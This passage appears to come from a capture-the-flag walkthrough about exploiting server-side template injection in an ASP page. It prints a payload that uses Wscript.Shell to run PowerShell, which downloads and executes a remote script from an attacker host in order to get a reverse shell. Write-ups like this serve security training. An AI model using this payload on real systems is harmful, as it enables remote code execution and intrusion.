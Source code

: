 Interesting. Since this is using `asp`, and the output is printed on another screen, we can test some SSTI. I used this payload:

<figure><img src="../../../.gitbook/assets/image (12) (10).png" alt=""><figcaption></figcaption></figure>

And this was returned:

<figure><img src="../../../.gitbook/assets/image (3) (4) (5).png" alt=""><figcaption></figcaption></figure>

This confirms that SSTI is possible on this machine, and that we can use this to gain a reverse shell (if there's no AMSI / AppLocker).&#x20;

{% code overflow="wrap" %}
```
<%= CreateObject("Wscript.Shell").exec("powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.14:8000/shell.ps1')").StdOut.ReadAll() %>
```
{% endcode %}

Using this, we can get a reverse shell easily.&#x20;

<figure><img src="../../../.gitbook/assets/image (4) (6).png" alt=""><figcaption></figcaption></figure>
